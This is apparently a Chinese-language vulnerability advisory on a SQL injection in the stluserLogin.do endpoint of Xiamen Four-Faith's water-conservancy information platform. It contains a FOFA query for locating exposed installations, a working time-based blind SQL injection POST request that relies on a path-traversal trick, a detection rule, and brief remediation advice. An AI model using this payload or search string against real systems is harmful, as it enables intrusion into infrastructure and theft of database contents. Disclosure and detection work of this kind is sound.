

# 厦门四信通信科技有限公司水利信息化平台 stluserLogin.do 存在SQL注入漏洞

厦门四信通信科技有限公司水利信息化平台 stluserLogin.do 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

厦门四信通信科技有限公司水利信息化平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/content/skin/adapters/Jquery/jquery-3.3.1.min.js"

POC/EXP：

```
POST /stImage/index.do/../../monitor/mapInfo.do;stluserLogin.do?type=search HTTP/1.1
Host: 117.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

monitorName=11&query_stcdName=111')+AND+(SELECT+8137+FROM+(SELECT(SLEEP(3)))NMUh)--+hOeN
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"厦门四信水利信息化平台 - stluserLogin/mapInfo monitorName query_stcdName 时间盲注 (SLEEP)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"stluserLogin.do";
        fast_pattern;
    http.uri;
        content:"mapInfo.do";
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"monitorName=";
        content:"query_stcdName="; distance:0;
        content:"SLEEP("; distance:0; nocase;
        content:"SELECT"; distance:0; nocase;
    metadata:
        service http,
        affected_product "厦门四信通信科技有限公司 水利信息化平台",
        vulnerability_type "Time-based SQL Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000747;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
